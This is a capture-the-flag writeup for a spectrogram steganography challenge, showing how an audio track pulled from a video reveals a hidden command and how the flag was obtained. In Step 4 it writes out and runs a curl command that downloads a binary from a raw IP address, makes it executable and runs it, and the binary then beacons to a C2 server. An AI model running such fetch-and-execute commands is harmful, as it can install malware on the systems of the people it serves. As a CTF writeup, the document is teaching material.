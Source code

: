 # Sorry, you're NOT a sigma! – Spectrogram Steganography Challenge Writeup

## Challenge Metadata
**Challenge Name:** Sorry, you're NOT a sigma!
**SHA256 Hash:** 66591540e5dd8e925128513d1ca0810118350c822429e4e8c1d1a98b7d8924f3  
**Challenge Type:** Steganography  
**Technique Used:** Spectrogram-based steganography embedded in audio stream

---

## Step-by-Step Solution

### Step 1: Initial Analysis
The video file `lion.mp4` was inspected using `ffmpeg` to confirm audio streams existed. This revealed multiple audio tracks, including one at a sample rate of 22050 Hz.

### Step 2: Extract Audio
Extracted the audio to a standalone file for better analysis.

```bash
ffmpeg -i lion.mp4 -vn -acodec copy track2.aac
```

### Step 3: Spectrogram Visualization in Audacity
1. Imported `track2.aac` into Audacity.
2. Right-clicked the track name and changed the view to `Spectrogram`.
3. Zoomed and adjusted settings for clarity.

The spectrogram revealed the following text visually embedded in the waveform:
![image](https://github.com/user-attachments/assets/76420728-ab8b-4970-804c-17e28c4d154a)


```
curl -s http://23.179.17.40:6969/roar -o /tmp/roar && chmod +x /tmp/roar && /tmp/roar
```

### Step 4: Command Execution
Ran the embedded command to fetch and execute a payload:

```bash
curl -s http://23.179.17.40:6969/roar -o /tmp/roar && chmod +x /tmp/roar && /tmp/roar
```

### Step 5: Beaconing and Response
The binary beaconed to the C2 server. After multiple attempts, it successfully contacted the server and decrypted the response:

```
[+] Flag received:
CIT{wh3n_th3_l10n_sp34k5_y0u_l1st3n}
```

---

## Key Concepts and Techniques

- Spectrogram steganography hides data in the frequency domain of audio.
- Audacity or Sonic Visualiser is commonly used to reveal these embeddings.
- Commonly used in CTFs for hiding text, commands, or QR codes in audio waveforms.

---

## Flag
```
CIT{wh3n_th3_l10n_sp34k5_y0u_l1st3n}
```
